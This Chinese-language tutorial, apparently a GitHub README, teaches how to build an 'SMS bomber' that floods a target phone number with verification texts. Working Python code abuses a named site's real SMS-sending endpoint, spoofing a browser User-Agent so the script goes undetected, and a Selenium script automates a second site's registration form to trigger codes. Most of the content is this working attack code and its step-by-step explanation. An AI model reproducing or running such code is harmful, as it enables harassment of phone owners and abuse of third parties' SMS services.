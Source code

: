 # 短信轰炸程序常见的两种技术解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是用户代理的意思
 #Python3.5的User-Agent是Python-urllib/3.5，我们要修改这个变量，以免服务器发现我们是一个Python程序
 #具体数据我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）**<br/>
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程**<br/>
![我们模拟注册过程](./imgfile/1.png)<br/>

**寻找所需的数据**<br/>
![寻找所需的数据](./imgfile/2.png)<br/>
![寻找所需的数据](./imgfile/3.png)<br/>
![寻找所需的数据](./imgfile/4.png)<br/>
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**
因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟一个post或者git请求，或者发送的报文信息过于复杂，我们难以构造

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

* 还有一种更便捷的方法，我们可以将驱动程序msedgedriver.exe改名为MicrosoftWebDriver.exe，并将此文件放在Python的安装路径下，就可以不用添加路径

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮<br/>
![定位按钮](./imgfile/5.png)<br/>

* 定位手机号输入框<br/>
![定位手机号输入框](./imgfile/6.png)<br/>

* 定位发送验证码按钮<br/>
![定位发送验证码按钮](./imgfile/7.png)
